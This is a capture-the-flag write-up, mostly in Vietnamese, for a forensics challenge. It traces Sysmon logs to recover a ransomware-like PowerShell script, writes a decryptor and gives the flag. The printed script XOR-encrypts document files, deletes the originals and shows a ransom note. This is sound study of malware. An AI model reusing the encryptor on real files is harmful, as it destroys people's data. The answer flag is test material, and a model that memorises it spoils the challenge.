





# Cave Expedition

### Details:
Rumors of a black drake terrorizing the fields of Dunlorn have spread far and wide. The village has offered a hefty bounty for its defeat. Sir Alaric and Thorin answered the call also returning with treasures from its lair. Among the retrieved items they found a map. Unfortunately it cannot be used directly because a custom encryption algorithm was probably used. Luckily it was possible to retrieve the original code that managed the encryption process. Can you investigate about what happened and retrieve the map content?

### Solution:

Ta được cho một file bị encrypted `map.pdf.secured` và folder `Logs`. Bên trong `\Logs`, tất cả các file log đều đã bị kẻ tấn công xóa hết dữ liệu, ngoại trừ một cái là `Microsoft-Windows-Sysmon_Operational.evtx`



Ta tiến hành phân tích log. Ta sẽ sort theo **thời gian** để xem có gì khả nghi không. Đến một đoạn, ta thấy có 1 khoảng Event ID 1 vs 11 xen kẽ nhau.

Ta check trên [Windows Security Log Events](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/) thì Event ID 1 là **Process creation** và Event ID 11 là **FileCreate**





Check từng cái 1 trong khoảng đó thì ta thấy ở những Event ID 1 có 1 đoạn code powershell thực hiện nhiệm vụ tạo và append code vào 1 file



Ta tiến hành lấy hết đống này về và decode Base64, ta có đoạn code mới:

```powershell
$k34Vm = "Ki50eHQgKi5kb2MgKi5kb2N4ICoucGRm"
$m78Vo = "LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLQpZT1VSIEZJTEVTIEhBVkUgQkVFTiBFTkNSWVBURUQgQlkgQSBSQU5TT01XQVJFCiogV2hhdCBoYXBwZW5lZD8KTW9zdCBvZiB5b3VyIGZpbGVzIGFyZSBubyBsb25nZXIgYWNjZXNzaWJsZSBiZWNhdXNlIHRoZXkgaGF2ZSBiZWVuIGVuY3J5cHRlZC4gRG8gbm90IHdhc3RlIHlvdXIgdGltZSB0cnlpbmcgdG8gZmluZCBhIHdheSB0byBkZWNyeXB0IHRoZW07IGl0IGlzIGltcG9zc2libGUgd2l0aG91dCBvdXIgaGVscC4KKiBIb3cgdG8gcmVjb3ZlciBteSBmaWxlcz8KUmVjb3ZlcmluZyB5b3VyIGZpbGVzIGlzIDEwMCUgZ3VhcmFudGVlZCBpZiB5b3UgZm9sbG93IG91ciBpbnN0cnVjdGlvbnMuCiogSXMgdGhlcmUgYSBkZWFkbGluZT8KT2YgY291cnNlLCB0aGVyZSBpcy4gWW91IGhhdmUgdGVuIGRheXMgbGVmdC4gRG8gbm90IG1pc3MgdGhpcyBkZWFkbGluZS4KLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLQo="
$a53Va = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
$b64Vb = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"

$e90Vg = @{}
$f12Vh = @{}

For ($x = 65; $x -le 90; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 90) { [char]65 } else { [char]($x + 1) }
}

function n90Vp {
     [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m78Vo))
}

function l56Vn {
    return (a12Vc $k34Vm).Split(" ")
}

For ($x = 97; $x -le 122; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 122) { [char]97 } else { [char]($x + 1) }
}

function a12Vc {
    param([string]$a34Vd)
    return [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($a34Vd))
}

$c56Ve = a12Vc $a53Va
$d78Vf = a12Vc $b64Vb

For ($x = 48; $x -le 57; $x++) {
    $e90Vg[([char]$x)] = if($x -eq 57) { [char]48 } else { [char]($x + 1) }
}

$e90Vg.GetEnumerator() | ForEach-Object {
    $f12Vh[$_.Value] = $_.Key
}

function l34Vn {
    param([byte[]]$m56Vo, [byte[]]$n78Vp, [byte[]]$o90Vq)
    $p12Vr = [byte[]]::new($m56Vo.Length)
    for ($x = 0; $x -lt $m56Vo.Length; $x++) {
        $q34Vs = $n78Vp[$x % $n78Vp.Length]
        $r56Vt = $o90Vq[$x % $o90Vq.Length]
        $p12Vr[$x] = $m56Vo[$x] -bxor $q34Vs -bxor $r56Vt
    }
    return $p12Vr
}

function s78Vu {
    param([byte[]]$t90Vv, [string]$u12Vw, [string]$v34Vx)

    if ($t90Vv -eq $null -or $t90Vv.Length -eq 0) {
        return $null
    }

    $y90Va = [System.Text.Encoding]::UTF8.GetBytes($u12Vw)
    $z12Vb = [System.Text.Encoding]::UTF8.GetBytes($v34Vx)
    $a34Vc = l34Vn $t90Vv $y90Va $z12Vb

    return [Convert]::ToBase64String($a34Vc)
}

function o12Vq {
    param([switch]$p34Vr)

    try {
        if ($p34Vr) {
            foreach ($q56Vs in l56Vn) {
                $d34Vp = "dca01aq2/"
                if (Test-Path $d34Vp) {
                    Get-ChildItem -Path $d34Vp -Recurse -ErrorAction Stop |
                        Where-Object { $_.Extension -match "^\.$q56Vs$" } |
                        ForEach-Object {
                            $r78Vt = $_.FullName
                            if (Test-Path $r78Vt) {
                                $s90Vu = [IO.File]::ReadAllBytes($r78Vt)
                                $t12Vv = s78Vu $s90Vu $c56Ve $d78Vf
                                [IO.File]::WriteAllText("$r78Vt.secured", $t12Vv)
                                Remove-Item $r78Vt -Force
                            }
                        }
                }
            }
        }
    }
    catch {}
}

if ($env:USERNAME -eq "developer56546756" -and $env:COMPUTERNAME -eq "Workstation5678") {
    o12Vq -p34Vr
    n90Vp
}
```

Đại loại code thể hiện quá trình tống tiền j đó và encrypt file thành .secured(file mà chúng ta đang có). Tiến hành viết code để decrypt

```powershell
# PowerShell code

function Decode-Base64 {
    param([string]$encodedString)
    return [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($encodedString))
}

function Decrypt-File {
    param([byte[]]$encryptedContent, [string]$key1, [string]$key2)

    $keyBytes1 = [System.Text.Encoding]::UTF8.GetBytes($key1)
    $keyBytes2 = [System.Text.Encoding]::UTF8.GetBytes($key2)
    $decryptedContent = [byte[]]::new($encryptedContent.Length)

    for ($i = 0; $i -lt $encryptedContent.Length; $i++) {
        $decryptedContent[$i] = $encryptedContent[$i] -bxor $keyBytes1[$i % $keyBytes1.Length] -bxor $keyBytes2[$i % $keyBytes2.Length]
    }

    return $decryptedContent
}

$encK1 = "NXhzR09iakhRaVBBR2R6TGdCRWVJOHUwWVNKcTc2RWl5dWY4d0FSUzdxYnRQNG50UVk1MHlIOGR6S1plQ0FzWg=="
$encK2 = "n2mmXaWy5pL4kpNWr7bcgEKxMeUx50MJ"

$k1 = Decode-Base64 $encK1
$k2 = Decode-Base64 $encK2

$encryptedFilePath = "map.pdf.secured"
$decryptedFilePath = "map_decrypted.pdf"

if (Test-Path $encryptedFilePath) {
    $encryptedContent = [System.Convert]::FromBase64String((Get-Content $encryptedFilePath -Raw))
    $decryptedContent = Decrypt-File $encryptedContent $k1 $k2
    [System.IO.File]::WriteAllBytes($decryptedFilePath, $decryptedContent)
    Write-Output "Done: $decryptedFilePath"
} else {
    Write-Output "Error $encryptedFilePath"
}

```

Run và được flag nằm trong file `.pdf`



---

**Flag**: `HTB{Dunl0rn_dRAk3_LA1r_15_n0W_5AF3}`

